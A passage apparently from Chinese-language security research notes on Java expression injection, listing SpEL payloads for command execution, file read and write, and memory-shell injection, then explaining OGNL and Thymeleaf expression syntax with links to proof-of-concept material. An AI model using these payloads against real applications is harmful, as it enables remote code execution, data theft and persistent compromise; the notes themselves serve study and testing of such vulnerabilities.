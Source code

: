 ```
new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("/bin/sh", "-c", "whoami").start().getInputStream(), "gbk")).readLine()
new java.util.Scanner(new java.lang.ProcessBuilder("/bin/sh", "-c", "ls", ".\\").start().getInputStream(), "GBK").useDelimiter("asdfasdf").next()

* Read or Write File
new String(T(java.nio.file.Files).readAllBytes(T(java.nio.file.Paths).get(T(java.net.URI).create("file:/Users/axisx/Downloads/application.properties"))))
T(java.nio.file.Files).write(T(java.nio.file.Paths).get(T(java.net.URI).create("file:/C:/Users/1.txt")), 'hello'.getBytes(), T(java.nio.file.StandardOpenOption).WRITE)

* MemShell
#{T(org.springframework.cglib.core.ReflectUtils).defineClass('Memshell',T(org.springframework.util.Base64Utils).decodeFromString('yv66vgAAA....'),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject()}
```

## ognl
OGNL（Object-Graph Navigation Language，对象图导航语言）。对象图，简单理解就是对象之间存在互相的引用。很多知名的项目都用到了OGNL，如Struts2、Spring Web Flow、Apache Click、Thymeleaf、FreeMarker等。官方网站：https://commons.apache.org/proper/commons-ognl/

OGNL的语法特性和SpEL很类似，有几个点较为特殊：（1）支持括号表达式（提高运算优先级），并且有自己的括号解析机制（2）用`@`调用静态方法和静态字段，`@class @method`，`@class @field` 

OGNL POC参考：https://github.com/ax1sX/SecurityList/blob/main/Struts2/POC%E8%A7%A3%E6%9E%90.md


## thymeleaf
Thymeleaf引擎用于XML/XHTML/HTML5，支持表达式解析。Thymeleaf HTML模板和普通HTML一样。官方网站：https://www.thymeleaf.org/doc/tutorials/2.1/usingthymeleaf.html

一个简单的模板样例如下：
```
<p th:utext="#{home.welcome}">Welcome to our grocery store!</p>
```
Thymeleaf的表达式包括如下几种，变量表达式`${}`的解析实际执行的是OGNL表达式。如果是在Spring框架下，Thymeleaf会将OGNL替换为SpEL
```
# 2.0版本
${...} 变量表达式，2.0版本执行OGNL，在Spring框架下执行SpEL
*{...} 选择变量表达式，类似变量表达式，但只能用于指定对象
#{...} 消息表达式
@{...} 链接URL表达式，其中可以填入绝对或相对地址

# 3.0版本增加
~{...} 片段表达式，重用部分模板
```
Thymeleaf的一个重要特性：预处理，形如`__${expression}__`，在表达式执行之前，会先执行预处理并根据结果修改最终要执行的表达式。

漏洞Demo：https://github.com/veracode-research/spring-view-manipulation/

配合漏洞Demo的分析文章：https://www.veracode.com/blog/secure-development/spring-view-manipulation-vulnerability
